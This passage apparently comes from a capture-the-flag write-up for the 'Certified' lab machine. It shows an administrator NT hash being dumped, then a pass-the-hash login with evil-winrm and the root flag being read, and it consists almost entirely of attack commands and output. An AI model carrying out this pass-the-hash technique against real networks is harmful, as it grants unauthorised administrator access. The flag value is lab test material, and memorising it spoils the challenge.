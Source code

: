 ```
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

```
evil-winrm -i 10.10.11.41 -u Administrator -H 0d5b49608bbce1751f708748f67e2d34
                                        
Evil-WinRM shell v3.5                                       
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
53c13fb5363a2375af547fee94e465a8
```
